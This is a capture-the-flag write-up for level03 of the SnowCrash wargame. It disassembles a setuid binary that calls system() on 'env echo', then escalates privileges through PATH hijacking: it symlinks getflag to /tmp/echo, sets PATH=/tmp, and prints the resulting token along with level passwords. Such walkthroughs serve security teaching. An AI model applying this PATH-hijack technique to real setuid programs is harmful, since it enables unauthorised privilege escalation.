

# LEVEL03

### 1. Login with the password for level03

```
kooda2puivaav1idi4f57q8iq
```

So, we can see the level03 file as below with the command ls -la,
we execute ./level03

```
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
level03@SnowCrash:~$ ./level03
Exploit me
```

when we reun level03 with _cat_ command, we can see the file type as below, since we don't see any **.pcap** file extension on the file name, it's not at pcap file. But we can assume that it's binary file.

```
ELF44 	($!444  TTT��(((��hhhDDP�td44Q�tdR�td��/lib/ld-linux.so.2GNUGNUOX�;�Sy8n�n��KT{K �K��3LD= T)__gmon_start__libc.so.6_IO_stdin_usedsetresgidsetresuidsyste��etegidgeteuid__libc_start_mainGLIBC_2.0ii
S��[��������t�a��'�[��5�%�%h������%������h������%
                                                   h�����%h �����%h(�����%h0����1�^����PTRh�hQVh��������������������U��S���=$u?�(� ������9�s�����(���(9�r��$��[]Ít&��'U����$��t���t	�$$���ÐU����� ������D$������D$�D$�D�D$�D$�D$�$�����D$��D$�D$�D$�$�����$�����Ð����������UWVS�i������l$0�� ��������� ���)�����t)1��D$8�,$���������������Ë$Ð���������U��S������t�f����Ћ���u��[]Ð�S��[��/�O����[�/usr/bin/env echo Exploit me;0p���L����p��������������zR� ���F
                                                   J
]�                                                  tx?;*2$"@,���a�B
  8`x���a�A
           �A�A�N0JA�A
                      ��A�������������������
����o�\́�                                    @�
```

We can also execute **./level03** file as below.

```
level03@SnowCrash:~$ ./level03
Exploit me
```

So, let's debug with **ltrace**

```
level03@SnowCrash:~$ ltrace ./level03
```

_ltrace_ is a debugging utility on Unix-like systems that can be used to intercept and display dynamic library calls.

```
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                      = 2003
geteuid()                                                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                            = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                            = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                         = 0
+++ exited (status 0) +++
```

The output seems to be a part of a trace produced by a dynamic analysis, possibly strace or similar, showing system calls made by an executable.
So we will debug this executable using **gdb**

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	and    $0xfffffff0,%esp
   0x080484aa <+6>:	sub    $0x20,%esp
=> 0x080484ad <+9>:	call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:	mov    %eax,0x18(%esp)
   0x080484b6 <+18>:	call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:	mov    %eax,0x1c(%esp)
   0x080484bf <+27>:	mov    0x18(%esp),%eax
   0x080484c3 <+31>:	mov    %eax,0x8(%esp)
   0x080484c7 <+35>:	mov    0x18(%esp),%eax
   0x080484cb <+39>:	mov    %eax,0x4(%esp)
   0x080484cf <+43>:	mov    0x18(%esp),%eax
   0x080484d3 <+47>:	mov    %eax,(%esp)
   0x080484d6 <+50>:	call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:	mov    0x1c(%esp),%eax
   0x080484df <+59>:	mov    %eax,0x8(%esp)
   0x080484e3 <+63>:	mov    0x1c(%esp),%eax
---Type <return> to continue, or q <return> to quit---
   0x080484e7 <+67>:	mov    %eax,0x4(%esp)
   0x080484eb <+71>:	mov    0x1c(%esp),%eax
   0x080484ef <+75>:	mov    %eax,(%esp)
   0x080484f2 <+78>:	call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:	movl   $0x80485e0,(%esp)
   0x080484fe <+90>:	call   0x80483b0 <system@plt>
   0x08048503 <+95>:	leave
   0x08048504 <+96>:	ret
End of assembler dump.
```

We can see some familiar functions as _geteuid, geteuid, setresgid.._ (remind me of some functions of C or C++)

To visualize these functions/code we can use a decompiler that can reconstruct this code to more higher level code, such as C.
We will use online decoder where Ghidra is included as a decode option **https://dogbolt.org/#Ghidra=134**

To decode our file, first, we need to copy our file to /tmp

```
scp -P 4242 level03@127.0.0.1:/home/user/level03/level03 /tmp
```



```
int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;

  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

We found the echo of **"Exploit me"**, the same result
when we execute **./level03** from the beginning.

So, let's take a look inside the **/usr/bin**

By manipulating the PATH environment variable, we can control the execution of the `env` command. To execute the program `getflag` located in `/bin` as if it were `echo`, we create a symbolic link named `echo` pointing to `getflag` in the writable `/tmp` directory. By adding `/tmp` to the PATH, we ensure that our fake `echo` in `/tmp` is executed when `env` searches for the `echo` command.

PATH 환경 변수를 조작하여 env 명령을 제어할 수 있습니다. /bin에 위치한 getflag 프로그램을 echo처럼 실행하기 위해 /tmp 디렉토리에 쓰기 가능한 심볼릭 링크를 만듭니다. PATH에 /tmp를 추가하여 env가 echo 명령을 찾을 때 /tmp의 가짜 echo가 실행되도록 보장합니다.

```
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
```

- `ln`: to create the links for the files
- `-s`: option to specify that this will be a symbolic link.

- The command `ln -s /bin/getflag /tmp/echo` creates a symbolic link named `echo` in the `/tmp` directory, pointing to the `/bin/getflag` executable. This creates a link between the `getflag` program and a new executable named `echo` in the specified directory.

```
level03@SnowCrash:~$ export PATH=/tmp
```

- The command `export PATH=/tmp` updates the `PATH` environment variable to include the `/tmp` directory. This means that when you run a command, the system will also search for executables in the `/tmp` directory, allowing the newly created `echo` symbolic link to be found and executed when the `env` command looks for it.

With above configuration, we found the token. We do not have a flag03 for this exercise. So, we can use token as password for level04.

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### Password for level04

```
qi0maab88jeaj46qoumi7maus
```
